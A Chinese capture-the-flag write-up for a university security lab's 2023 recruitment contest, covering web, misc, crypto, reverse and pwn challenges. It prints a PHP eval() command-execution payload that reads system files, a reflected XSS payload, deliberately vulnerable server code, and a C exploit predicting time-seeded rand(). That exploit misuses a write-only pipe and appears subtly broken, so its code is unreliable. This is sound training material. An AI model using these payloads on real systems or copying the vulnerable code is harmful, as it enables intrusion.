







## 比赛地址
[XHU网络安全实验室招新赛(2023)](http://112.74.181.184/games/1)

## WEB
### ez_php
> 这段PHP代码是一个简单的Web脚本，允许用户通过HTTP GET请求传递一个名为 "c" 的参数，并将该参数的值传递给 `eval()` 函数执行

```php
<?php
error_reporting(0);  // 设置PHP错误报告级别为0，即不显示错误信息

if(isset($_GET['c'])){ // 如果HTTP GET请求中包含参数 'c'
    $c = $_GET['c'];   // 获取参数 'c' 的值
    eval($c);          // 使用eval()函数执行参数 'c' 的值作为PHP代码
} else {
    highlight_file(__FILE__); // 如果没有参数 'c'，则显示当前脚本文件的源代码
}

```
> 这段代码的问题在于，它允许用户输入任意的PHP代码并将其作为参数 'c' 的值传递给 `eval()` 函数执行，这可能导致安全风险，因为攻击者可以利用这个漏洞执行恶意代码。
```php
?c=system('ls /');
bin boot dev etc fl4g_w4s_here home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var

?c=system('cat /fl4g_w4s_here');
covteam{welcome_to_covteam}
```
1.   在 PHP 中，`system` 是一个用于执行系统命令的函数。它允许你在 PHP 脚本中调用操作系统级别的命令，并且可以获取命令的输出。`system` 函数的基本语法如下：
2.  system(command, return_var);
	- `command` 是要执行的系统命令，可以是一个字符串。
	- `return_var` 是一个可选参数，它将用于存储命令的返回值。如果提供了这个参数，命令的返回值将被存储在这个变量中
### ez_xss
app.js
> 这段代码是一个使用 Node.js 和 Express 框架编写的简单 Web 应用程序。下面是对代码的中文注释：
```java
import express from "express"; // 导入 Express 框架
import { visit } from './bot.js'; // 导入 bot.js 文件中的 visit 函数
import bodyParser from "body-parser"; // 导入 body-parser 模块，用于解析请求体
const FLAG = process.env.FLAG || 'covteam{DUMMY}'; // 从环境变量中获取 FLAG 或默认为 'covteam{DUMMY}'
const COOKIE = process.env.COOKIE || 'DUMMY'; // 从环境变量中获取 COOKIE 或默认为 'DUMMY'
import cookieParser from "cookie-parser"; // 导入 cookie-parser 模块，用于解析 cookie

const app = express(); // 创建 Express 应用程序实例
app.use(cookieParser()); // 使用 cookie-parser 中间件，以便解析请求中的 cookie
app.use(bodyParser.urlencoded({ extended: true })); // 使用 body-parser 中间件，以便解析请求体中的表单数据

const port = 4242; // 定义应用程序监听的端口号

app.get('/', (req, res) => {
	var name = "xss"
	if (req.query.name) {
		name = req.query.name;
	}
	
	console.log(name)
	res.send(`<h1>Can you get FLAG? ${name}?</h1>`); // 处理根路径的 GET 请求，根据查询参数显示消息
});

app.get('/getflag', (req, res) => {
	var a = req.cookies.user;
	if (req.cookies.user == COOKIE) {
		res.send(`<script>alert("You are admin, here is FLAG: `+FLAG+`")</script>`); // 如果用户的 cookie 与环境变量中的 COOKIE 匹配，返回包含 FLAG 的脚本
	} else {
		res.status(400).send('Authentication failed'); // 否则返回认证失败的响应
	}
});

app.post('/bot', (req, res) => {
	const uri = req.body.uri;
	visit(uri); // 处理 /bot 路径的 POST 请求，调用 bot.js 中的 visit 函数并传递 uri 参数
	res.send(""); // 发送空响应
});

app.listen(port, () => console.log(`app listening on port ${port}!`)); // 启动 Express 应用程序监听指定端口

```
>在根路径的GET请求中，用户输入的`name`参数被直接插入到HTML响应中，这可能导致跨站脚本攻击（XSS）漏洞。建议对`name`参数进行适当的输入验证和编码，以防止XSS攻击。
```java
?name=<script>alert(1)</script>
```

### ez_front
查看网页源代码 ，看preload.js
```java
    let secert='covteam{y0u_kn0w_fr0n4_secu4ity}';
    let scoreret = `<h2 style = 'color:white; text-align:center; position:relative; top: 35%;'>Your Score : ${ scorePoint }</h2>`;
    if(scorePoint>=100){
        scoreret += `<h2 style = 'color:white; text-align:center; position:relative;'>${secert}</h2>`;
    }
```
大于100时会弹出secert= 也就是flag

### front_fetch
同上
```java
 let scoreret = `<h2 style = 'color:white; text-align:center; position:relative; top: 35%;'>Your Score : ${ scorePoint }</h2>`;

    if(scorePoint>=100){

        code2 =  document.getElementById('code2').innerText;  // code2关注 ⭐

        let secert=fetch('http://101.43.112.74:18004/'+code1+code2+'.'+'thrid').then(response => response.text()).then(data => data_out=data);

        scoreret += `<h2 style = 'color:white; text-align:center; position:relative;'>${data_out}</h2>`;

    }
```
不过 secret是 `http://101.43.112.74:18004/'+code1+code2+'.'+'thrid' `的页面内容 ，我们去找code1和code2就可以

控制台直接弹出code2，然后拼接url地址，访问就可以得到secret


### header
重定向次数太多，burp抓包一步步看，提示header（注意响应头和请求头⭐）



### ez_java

## Misc

### 如何登录github？🤔
就进去 ，找那个py文件

然后把名字用格式包裹住就可以了
`covteam{convert.py}`

## Crypto
### md5
就找个cmd5网站解密


## Reverse
### baby_upx
```bash
63 6F 76 74 65 61 6D 7B 54 68 69 73 5F 69 73 5F 63 6F 64 65 5F 52 65 7D
```
- ascii码转换为字符


### baby_Re

## Pwn

### baby_numbergame
1. 下载附件，拖进IDA中，F5查看伪代码
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // 定义整数变量 v4，用于存储用户选择的门编号
  unsigned __int64 v5; // 定义无符号整数变量 v5，通常用于保存某些程序状态信息

  v5 = __readfsqword(0x28u); // 保存程序状态信息

  v4 = 0; // 初始化 v4 为 0，用于后续存储用户的选择

  // 输出游戏的欢迎信息和选项
  puts("[+]Let's play a number game, choice one door ,then guess my random number!");
  puts("[+]1.doorOne:Hard?   2.doorTwo:Easy?   3.doorThree:Simple?");
  printf("Input your choice:"); // 提示用户输入选择

  // 从用户输入中读取选择并存储到 v4 中
  __isoc99_scanf("%d", &v4);

  // 根据用户的选择执行相应的函数
  switch (v4)
  {
    case 1:
      door1(); // 执行 door1 函数，可能是游戏中的难度之一
      break;
    case 2:
      door2(); // 执行 door2 函数，可能是游戏中的难度之一
      break;
    case 3:
      door3(); // 执行 door3 函数，可能是游戏中的难度之一
      break;
  }

  return 0; // 返回 0 表示程序正常结束
}

```
2.随便跟进一个door
```c
unsigned __int64 door3()
{
  unsigned int v0; // 定义无符号整数变量 v0
  int v2; // 定义整数变量 v2，用于存储用户的猜测
  int v3; // 定义整数变量 v3，用于计数
  int i; // 定义整数变量 i，用于循环计数
  unsigned int v5; // 定义无符号整数变量 v5，用于存储随机生成的数字
  unsigned __int64 v6; // 定义无符号长整数变量 v6，通常用于保存程序状态信息

  v6 = __readfsqword(0x28u); // 保存程序状态信息

  // 输出游戏信息，提示用户有十次机会来猜数字
  puts("[!]doorThree:Are you sure? You have ten times to try!");

  v5 = 0; // 初始化 v5 为 0，用于存储随机生成的数字
  v2 = 0; // 初始化 v2 为 0，用于存储用户的猜测
  v3 = 0; // 初始化 v3 为 0，用于计数

  for (i = 0; i <= 9; ++i) // 循环进行猜数字的操作，最多十次
  {
    v0 = time(0LL); // 获取当前时间
    srand(v0); // 使用时间作为随机数种子
    v5 = rand() % 1000; // 生成一个随机数，取余 1000，范围在 0 到 999 之间
    printf("[+]guess what I think, hengheng~~~:"); // 提示用户猜测
    __isoc99_scanf("%d", &v2); // 从用户输入中读取猜测并存储到 v2 中

    if (v5 == v2) // 判断用户的猜测是否与随机数相等
    {
      puts("you get it! Let's get ready to be a real pwn master!!");
      system("cat flag"); // 如果猜对了，执行一个命令来获取标志（flag）
      return v6 - __readfsqword(0x28u); // 返回程序状态信息
    }
    
    printf("[!]enen, nono~, the number in my mind is %d, try again!\n", v5); // 如果猜错，提示用户再次尝试猜测
    
    if (++v3 == 5) // 如果用户连续猜错了 5 次
      puts("[!]Dawn!!!!! bro!M3"); // 输出警告消息
  }

  return v6 - __readfsqword(0x28u); // 返回程序状态信息
}

```
3. 理解程序，写exp（进入3门后，获取时间，做伪随机数，猜数）
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

int main() {
    // 使用相同的种子生成随机数
    time_t seed = time(NULL);
    srand((unsigned int)seed);
    int predicted_random_number = rand() % 1000;

    // 启动程序并与其进行交互
    FILE* program = popen("./pwn1", "w");

    // 发送门3的选择
    fprintf(program, "3\n");
    fflush(program);

    // 等待一段时间，如果程序要求等待2秒
    sleep(2);
    printf("%d\n", predicted_random_number);

    // 发送预测的答案给程序
    fprintf(program, "%d\n", predicted_random_number);
    fflush(program);

    // 读取程序的响应
    char buffer[1024];
    while (fgets(buffer, sizeof(buffer), program) != NULL) {
        printf("%s", buffer);
        if (strstr(buffer, "you get it!") != NULL) {
            pclose(program);
            return 0; // 停止程序
        }
    }

    pclose(program);

    return 0;
}

```
4. gcc 1.cpp ，运行

>关键问题是程序使用了 `rand` 来生成伪随机数，但它在每次循环中都使用相同的种子，这意味着生成的伪随机数是相同的。这意味着只要在循环开始之前知道了第一个随机数，就可以在整个游戏中预测每次的随机数，从而轻松获取flag。
>解决这个问题的方法是通过破解伪随机数生成，以预测每次的随机数，从而在第一次猜测时获取flag。这通常涉及到分析 `rand` 函数的种子生成和随机数生成算法，然后编写代码来模拟这个过程以获取正确的随机数。